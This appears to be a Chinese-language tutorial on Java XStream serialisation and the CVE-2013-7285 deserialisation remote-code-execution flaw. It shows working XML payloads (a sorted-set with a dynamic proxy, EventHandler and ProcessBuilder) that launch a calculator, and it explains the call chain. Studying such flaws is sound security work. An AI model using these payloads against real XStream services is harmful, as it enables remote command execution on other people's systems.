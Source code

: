 # xstream漏洞检测与利用
# **XStream Basics**
在描述攻击之前，让我们回顾一下XStream的一些基础知识。XStream是一个XML序列化库，可以在Java类型和XML之间进行转换。考虑一个简单的Person类：
```java
public class Person {
    @XStreamAlias("firstName") //别名注解
    private String firstName;
    @XStreamAlias("lastName")
    private String lastName;
    @XStreamAlias("address")
    private Address address;
    // 省略get和set函数
}
class Address{
    @XStreamAlias("国")
    private String country;
    @XStreamAlias("省")
    private String province;
    @XStreamAlias("市")
    private String city;
    // 省略get和set函数
}
```
**由Object生成XML：**
```java
Person person = new Person();
person.setFirstName("jack");
person.setLastName("Ma");
Address address = new Address();
address.setCountry("China");
address.setProvince("ZheJiang");
address.setCity("HangZhou");
person.setAddress(address);
XStream xstream=new XStream();
//XStream xstream=new XStream(new DomDriver()); //直接用jaxp dom来解释
//XStream xstream=new XStream(new DomDriver("utf-8")); //指定编码解析器,直接用jaxp dom来解释
////如果没有这句，xml中的根元素会是<包.类名>；或者说：注解根本就没生效，所以的元素名就是类的属性
xstream.processAnnotations(person.getClass()); //通过注解方式的，一定要有这句话
//将某一个类的属性，作为xml节点的属性，而不是子节点
xstream.useAttributeFor(Address.class, "country");
String xml = xstream.toXML(person);
System.out.println(xml);
-----------------------------------------输出---------------------------------------------
<person>
  <firstName>jack</firstName>
  <lastName>Ma</lastName>
  <address 国="China">
    <省>ZheJiang</省>
    <市>HangZhou</市>
  </address>
</person>
```
在这两种情况下，XStream都使用Java反射将Person类型转换为XML或从XML转换为Person类型。攻击发生在读取XML期间。在读取XML时，XStream使用反射实例化Java类。

**由XML生成Object：**
```java
 String testXMl = "<person>\n" +
                "  <firstName>jack</firstName>\n" +
                "  <lastName>Ma</lastName>\n" +
                "  <address 国=\"China\">\n" +
                "    <省>ZheJiang</省>\n" +
                "    <市>HangZhou</市>\n" +
                "  </address>\n" +
                "</person>";
XStream xstream = new XStream(new DomDriver());
xstream.useAttributeFor(Address.class, "country");
xstream.processAnnotations(Person.class);
Person obj = (Person)xstream.fromXML(testXMl);
System.out.println(obj);
-----------------------------------------输出---------------------------------------------
[firstName = jack,lastName = Ma,address = [country = China,province = ZheJiang,city = HangZhou]
```
**别名配置的方式**
* 可以通过类注解实现@XStreamAlias,比如XStreamAlias("person");采用这种方式的时候，需要注意xStream实例化的时候，加上 xStream.processAnnotationsPerson.class); 通过注解方式的，一定要有这句话

* 可以通过配置Xstream设置实现；比如xStream.alias("person",Person.class);

**其他特性**
* 类成员别名，用xStream.aliasField(String alias, Class definedIn, String fieldName)。

* 将某一个类的属性，作为xml头信息的属性，而不是子节点，用xStream.useAttributeFor(Class definedIn, String fieldName)。

* 指定类成员属性别名，用 aliasAttribute(Class definedIn, String attributeName, String alias)，单独命名没有意义，还要通过useAttributeFor(Class definedIn, String fieldName) 应用到某个类上。如：将Person的firstName指定为XML属性并用别名表示。

* XStream默认当String类型的属性值为null时不封装到xml中。可以根据实际传xml情况，选择对象属性set空字符串还是null。
* 隐藏跟属性节点的时候，需要使用addImplicitCollection，比如：xStream.addImplicitCollection(Person.class,"lists");

# **How the Attack Works**
XStream实例化的类由它解析的XML元素的名称决定。
因为我们将XStream配置为知道Person类型，所以XStream在解析名为“Person”的XML元素时会实例化一个新的Person。
除了Person这样的用户定义类型之外，XStream还可以即时识别核心Java类型。例如，XStream可以从XML读取映射：
```java
String xml = "" 
    + "<map>" 
    + "  <element>" 
    + "    <string>foo</string>" 
    + "    <int>10</int>" 
    + "  </element>" 
    + "</map>";
XStream xStream = new XStream();
Map<String, Integer> map = (Map<String, Integer>) xStream.fromXML(xml);
```
XStream读取表示核心Java类型的XML的能力将有助于远程代码执行攻击的利用。

## **构造攻击代码(CVE-2013-7285)**
```java
new ProcessBuilder().command("cmd.exe /c calc").start();
```
XStream只调用构造函数和设置字段，因此，攻击者无法直接调用ProcessBuilder.start()方法。但是，安全研究员Dinis Cruz在他们的博客文章中向我们展示了他们如何使用Comparable接口来调用攻击代码。利用Java动态代理来动态地创建一个可比较的实例，同时实现Comparable接口，设置代理的handler为Java的EventHandler，EventHandler类为攻击者提供了一个可配置的InvocationHandler实现，攻击者将EventHandler配置为调用ProcessBuilder的start()方法。将这些组件放在一起得到动态代理的XML表示：
```xml
<dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
        <target class="java.lang.ProcessBuilder">
            <command>
                <string>open</string>
                <string>/Applications/Calculator.app</string>
            </command>
        </target>
        <action>start</action>
    </handler>
</dynamic-proxy>
```
为了强制构建的proxy调用compare方法，通过构建一个可排序的集合TreeSet来触发两个可比较的实例进行比较，Payload如下：
```xml
<sorted-set>
  <string>foo</string>
  <dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>calc</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>
```
最终，当XStream读取这个XML时，攻击就会发生：
```java
String payload = // XML from above
XStream xstream = new XStream();
xstream.fromXML(payload);
```
### **攻击流程总结**
让我们总结一下XStream在反序列化这个XML时触发的大致调用过程：
* 步骤一：XStream调用TreeSet构造函数，设置字符“foo”和创建的代理对象。
* 步骤二：TreeSet构造函数调用实现Comparable接口的Proxy对象的compareTo方法来确定集合中各项的顺序。
* 步骤三：Proxy对象将所有的方法调用委托给EventHandler。
* 步骤四：EventHandler在其invokeInternal函数中调用配置ProcessBuilder的start()方法。
* 步骤五：ProcessBuilder派生一个新进程，运行攻击者希望执行的命令。

# **防御总结**
http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/

https://blog.csdn.net/weixin_39635657/article/details/111104938
# **参考**
Xstream特性：
https://www.baeldung.com/xstream-deserialize-xml-to-object

https://www.baeldung.com/xstream-serialize-object-to-xml

Xstream反序列化原理：
https://blog.csdn.net/weixin_39635657/article/details/111104938

XStream 组件高危漏洞分析与利用：
https://paper.seebug.org/1417/

Remote Code Execution with XStream：
https://www.baeldung.com/java-xstream-remote-code-execution

http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/

远程代码执行漏洞复现：
https://www.jianshu.com/p/b600b6281aff

Xstream反序列化远程代码执行漏洞深入分析：
https://www.freebuf.com/articles/web/268553.html